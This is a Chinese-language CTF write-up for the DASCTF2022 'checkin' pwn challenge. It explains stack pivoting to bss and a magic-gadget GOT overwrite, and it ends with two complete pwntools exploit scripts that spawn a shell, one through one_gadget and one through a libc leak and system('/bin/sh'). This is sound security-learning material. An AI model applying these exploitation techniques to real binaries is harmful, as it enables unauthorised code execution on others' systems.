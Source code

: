 ```yaml
---
title: DASCTF2022_checkin
tags:
 - 栈迁移
 - PWN
 - magic gadget
categories:
 - DASCTF
---
```

## 总结：

通过这道题的学习和收获有：

1、栈迁移，何为栈？本来栈的定义就是rsp指针与rbp指针之间的就是栈。rsp在哪栈就在哪，因此两次leave，栈就变了两次，而真正跳到变化的栈那步是在最后的ret执行的。也算是对栈迁移又有了一点新的理解。

2、利用magic gadget修改got表

3、这道题的核心考察的就是栈迁移以及payload布局。

4、取magic gadget中的ebx时，如果ebx的值为正，则直接取，如果为负，则加0x100000000取补码。

5、如果可以的话，迁移到bss段尽量迁移到地址高一点的地方。这次打远程的那个exp就是因为bss段迁移的太低了，因为是破坏了某些数据，导致最后执行system函数的时候卡住了。
<!--more-->

## 保护策略：

![image-20220411121501353](/upload/img/image-20220411121501353.png)

## 大致思路：


![image-20220411121504338](/upload/img/image-20220411121504338.png)



可以发现，这道题就一个输入函数，没有输出函数，不过这个read具有16字节的溢出。这个没什么好想的，直接就栈迁移了。

然后输出函数也没有，泄露栈基地址这种情况就排除了，那就只能迁移到bss段。

先考虑一点，溢出16个字节仅仅只能去迁移，我们似乎没有办法去bss段布置数据。不过观察了一下汇编代码，发现read函数的第二个参数是由rbp确定的。

![image-20220411121508220](/upload/img/image-20220411121508220.png)



而我们可以利用溢出来控制rbp，因此就相当于可以控制read的输入的地方了，控制完rbp的话，只能在控制一个返回地址，既然控制rbp就已经相当于控制rsi了，那就返回0x4011BF再读一次（此时的read输入的地址已经是bss段了）。**选取往bss段输入的内容，一定要把地址抬高，我最开始选择的是往0x404100这里写入数据再迁移，到了最后执行system的过程中给卡死了**



read结束之后，又到了leave;ret指令。**leave指令就是mov rsp;rbp  pop rbp**；

执行leave指令的时候，我们的rbp是什么？是我们要控制read函数的rsi来设定的rbp（它现在是bss段地址）

我还是用实际的数据来举例一下吧。假设我第一次控制rbp为（0x404600+0xa0），那rsi的值就是0x404600（因为buf为-0xa0）（即我们输入的数据是从0x404600处开始输入的）我们可以输入0xB0个数据，因此在0x404600+0xa0这个地方写入0x404600。

此时执行read结束后的leave指令是什么情况？（如下图）

![image-20220411121513742](/upload/img/image-20220411121513742.png)

![image-20220411121517837](/upload/img/image-20220411121517837.png)

![image-20220411121521819](/upload/img/image-20220411121521819.png)

![image-20220411121525688](/upload/img/image-20220411121525688.png)

总结一下上面的过程，**原本read读入完我们的数据，<font color=#FF0000 >rbp指向的才是我们想跳转的地方（并非rbp本身）</font>而rbp本身距离我们想跳转的还有0xa0个字节，不过至少rbp就在bss段，执行了第一次leave之后，<font color=#FF0000 >rsp也就变成了rbp的值（同时由于pop rbp，此时的rbp又变成了rbp当初所指向的内容）</font>，此时已经迁移到bss段了（只不过我们还要再迁移到我们布置的数据那里）因此再来一次leave（这个是第二次read输入过去的），由于leave里的mov rsp,rbp，rsp再次被改变，最后完成了迁移（迁移到了我们布置在bss段里的数据）**



至此的话，大体框架就已经完成了。

**剩下的就是在bss段中布局payload了，本地的话非常简单，用magic gadget去将setvbuf函数地址修改为one_gadget地址，然后调用一下setvbuf就完事了。远程的话，roderick师傅给我说，因为动态库的原因，one_gadget用不了，因此只能把setvbuf改成puts函数，然后再劫持程序执行流，完成ret2libc。**

这里先简单说一下magic gadget吧，用ROPgadget --binary checkin --opcode 015dc3  去搜这个gadget的地址。015dc3是这个gadget的机器码（IDA里是看不见的，因为这个是机器码错位得到的）。

这个gadget长这样：

```assembly
add    DWORD PTR [rbp-0x3d], ebx
nop    DWORD PTR [eax+eax*1+0x0]
repz ret
```

核心是在第一行的add上，我们可以利用ret2csu控制rbp和rbx，由此就可以用这个修改函数的got表。以这道题为例，我现在想将setvbuf的真实地址改成one_gadget地址，只需要将rbp-0x3d写成setvbuf的got地址，将ebx放成setvbuf和one_gadget二者在libc库中的偏移即可。再调用这个one_gadget，即可完成修改got表。

这个magic gadget威力还是很大的，如果上述过程不懂的可以再好好想一下或者google一下。（之所以这里不想再详细讲了，是因为我在另一篇文章中详细写了这个东西，只不过因为一些原因那篇文章暂时不能发，这里用到了就简单提一下吧）

一句话概括本题思路，利用栈迁移到bss段，调试布置payload，利用magic gadget修改setvbuf got表为打印函数，最后ret2libc即可。

## exp:

这是打本地的，用的one_gadget。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./ab')
e=ELF('./ab')
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404100+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
#gdb.attach(p)
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(0x8905c)#这个0x8905c为setvbuf和one_gadget二者地址在libc库中的差值
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(setvbuf_plt_addr)
payload=payload.ljust(160,'b')
payload+=p64(0x404100)+p64(leave_ret_addr)
p.send(payload)
p.interactive()
```



比赛结束，远程的环境关闭了，不过roderick师傅远程打通了，我按照他这个思路写的，动态库换成比赛给的2.31，然后改成remote，远程也是ok的。

```python
#coding:utf-8
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./checkin')
#p=remote('node4.buuoj.cn',27544)
e=ELF('./checkin')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_off=libc.sym['puts']
setvbuf_off=libc.sym['setvbuf']
print(hex(puts_off))
print(hex(setvbuf_off))
pop_rbp_addr=0x40113d
read_got_addr=e.got['read']
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404600+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
pop_rdi_ret=0x401253
ret_addr=0x40101a
#gdb.attach(p)
if puts_off>setvbuf_off:
    offset=puts_off-setvbuf_off
else:
    offset=puts_off-setvbuf_off+0x100000000

print(hex(offset))
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(offset)#rbx
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(pop_rdi_ret)
payload+=p64(read_got_addr)
payload+=p64(setvbuf_plt_addr)
payload+=p64(pop_rbp_addr)#让rbp去指向0x404600（但是rbp本身是0x4046a0)，这样read结束之后触发了第一次leave，就让rsp的值为0x4046a8（这个地址指向的就是leave;ret）（此时rbp由于pop rbp，自身的值变成了0x404600），然后到ret，再次执行了leave;ret
#第二次leave，rsp才算变成了0x404608，然后ret实现了转移至布置到的system处。
payload+=p64(0x404600+0xa0)
payload+=p64(0x4011BF)
payload=payload.ljust(160,'b')
payload+=p64(0x404600)+p64(leave_ret_addr)
p.send(payload)
read_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(read_addr))
libc_base=read_addr-libc.sym['read']
print(hex(libc_base))
sys_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+libc.search('/bin/sh').next()
payload=p64(0xdeadbeef)
payload+=p64(ret_addr)#这道题需要栈对齐，具体细节我的另一篇博客上有讲。
payload+=p64(pop_rdi_ret)
payload+=p64(bin_sh_addr)
payload+=p64(sys_addr)
payload+=p64(0xdeadbeef)
sleep(0.2)
p.send(payload)
p.interactive()
```

如果不太理解exp为什么这样写，就多调试N遍（我光调试这远程一个脚本从写到各种调试再到打通再到彻底理解，调试了73遍...)，总会有所收获的。
本人就一菜狗，如果写的有错误的地方，欢迎指正

